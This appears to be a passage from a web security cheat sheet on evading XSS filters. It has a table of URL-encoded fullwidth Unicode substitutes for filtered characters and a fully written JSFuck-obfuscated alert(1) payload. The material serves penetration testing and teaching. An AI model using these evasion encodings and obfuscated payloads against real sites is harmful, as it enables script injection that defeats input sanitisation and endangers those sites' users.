 | ＞         | <p>%ef%bc%9e<br>&#x26;#xff1e;</p>    |
| '         | %ef%bc%87                            |
| "         | %ef%bc%82                            |
| =         | %e2%81%bc                            |
| /         | %ef%bc%8f                            |

### Bypass Using JSFuck

JSFuck is an esoteric JavaScript programming language that only uses the following 6 characters to write any JavaScript code: `[]()!+`

{% hint style="info" %}
The (very) basic idea behind JSFuck is that you can recreate all JavaScript functionalities using such a limited set of characters because JavaScript is a weakly typed programming language, meaning that it allows the evaluation of any expression as any type.\
\
If you want to know more about its inner workings, check out this [link](https://github.com/aemkei/jsfuck?tab=readme-ov-file#how-it-works).
{% endhint %}

The following represents an `alert(1)` payload written in JSFuck

```javascript
[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])()
```

<figure><img src="../../.gitbook/assets/jsfck.png" alt=""><figcaption><p>Triggering an alert(1) message in Firefox's console using JSFuck</p></figcaption></figure>

Link: [https://jsfuck.com/](https://jsfuck.com/)\
GitHub Repo: [https://github.com/aemkei/jsfuck](https://github.com/aemkei/jsfuck)
